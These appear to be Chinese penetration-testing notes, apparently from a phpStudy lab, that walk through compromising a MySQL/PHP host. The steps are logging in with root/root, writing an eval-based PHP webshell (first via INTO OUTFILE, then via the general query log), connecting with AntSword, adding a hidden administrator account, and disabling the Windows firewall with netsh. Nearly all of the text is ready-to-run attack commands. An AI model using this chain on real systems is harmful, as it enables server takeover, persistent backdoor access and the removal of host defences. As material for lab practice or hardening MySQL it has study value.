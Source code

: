 弱密码 root root 登录成功

尝试`outfile`写webshell

`select "<?=@eval($_POST[1]);" into outfile "C:/phpStudy/WWW/2.php"`

返回以下信息

```
#1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
MySQL服务器正在使用--secure-file-priv选项运行，因此无法执行此语句
```

查看相关选项配置

```sql
show global variables like '%secure%';
```

![image-20240503133619763](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240503133619763.png)

这里的值是`NULL`就是不允许导入导出

**secure_file_priv 参数解析：**

| 参数值                              | 说明                                  |
| ----------------------------------- | ------------------------------------- |
| null                                | 不允许导入导出                        |
| 指定文件夹（ C:\\ProgramData\\.. ） | mysql的导入导出只能发生在指定的文件夹 |
| secure_file_priv 不设置（为空）     | 没有任何限制                          |

### 基于日志写Shell

```
show variables like '%general%';	查看配置，日志是否开启，和mysql默认log地址(记下原地址方便恢复)

set global general_log = on;  开启日志监测，默认关闭(如果一直开文件会很大的)

set global general_log_file = 'C:/phpStudy/WWW/shell.php';  设置日志路径

select '<?php eval($_POST[shell]);?>';  执行查询，写入shell
```

![image-20240503134223321](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240503134223321.png)

用蚁剑连接

> ```
> net user 账户 密码 /add
> 管理员权限，所有直接加
> net localgroup administrators admin /add
> ```
>
> 关防火墙
>
> ```
> netsh advfirewall show allprofile state
> netsh advfirewall set allprofiles state off
> ```
